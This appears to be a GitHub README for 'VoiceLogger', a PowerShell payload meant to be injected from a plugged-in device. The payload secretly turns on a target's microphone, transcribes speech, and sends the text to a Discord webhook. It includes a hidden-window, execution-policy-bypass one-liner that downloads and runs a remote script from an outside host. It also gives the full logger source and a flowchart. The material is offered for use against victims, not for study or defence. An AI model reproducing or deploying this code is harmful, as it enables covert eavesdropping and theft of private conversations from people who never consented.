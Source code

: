 
# VoiceLogger

## Description

This payload activates your target's microphone, converts their speech to text, and exfils it to Discord 
with the optional functionality of incorporating voice activated payloads.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory

`$dc` is the variable that stores your Discord webhook 

```
powershell -w h -NoP -Ep Bypass $dc='';irm jakoby.lol/voiceLogger | iex
```

### The Function

- The voiceLogger function leverages the System.Speech namespace to create a continuous speech-to-text logger. 
- It initializes a speech recognition engine, loads a dictation grammar, and sets the input to the default audio device. 
- The script then enters an infinite loop where it listens for speech input and recognizes the text. 
- The recognized text is written to the output and saved to a temporary log file. 
- The log file content is then uploaded using the DC-Upload function. 
- Additionally, the script checks for specific voice commands using a switch statement with regex patterns: if the word "notepad" is detected, it launches Notepad, 
- and if the word "exit" is detected, it breaks the loop and stops the voice logger. 
- Once the loop is terminated, the log file's content is cleared.

```powershell
function voiceLogger {

    Add-Type -AssemblyName System.Speech
    $recognizer = New-Object System.Speech.Recognition.SpeechRecognitionEngine
    $grammar = New-Object System.Speech.Recognition.DictationGrammar
    $recognizer.LoadGrammar($grammar)
    $recognizer.SetInputToDefaultAudioDevice()

    while ($true) {
        $result = $recognizer.Recognize()
        if ($result) {
            $results = $result.Text
            Write-Output $results
            $log = "$env:tmp/VoiceLog.txt"
            echo $results > $log
            $text = get-content $log -raw
            DC-Upload $text

            # Use a switch statement with the $results variable
            switch -regex ($results) {
                '\bnotepad\b' {saps notepad}
                '\bexit\b' {exit}
            }
        }
    }
    Clear-Content -Path $log
}
```

```mermaid
graph TB;
  A[Start voiceLogger] --> B[Start Listening]
  B --> C{Recognized text?}
  C -->|Yes| D[Write to console]
  D --> E[Save to file]
  E --> F[Send to Discord]
  F --> G{Keyword recognized?}
  G -->|'note'| H[Open Notepad]
  G -->|'exit'| I[Exit function]
  G -->|No keyword| B
  C -->|No| B
  I --> J[Clear Log]
  J --> K[End voiceLogger]
```

## Contributing

All contributor's names will be listed here

I am Jakoby


## Version History

* 0.1
    * Initial Release


<!-- CONTACT -->
## Contact

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments


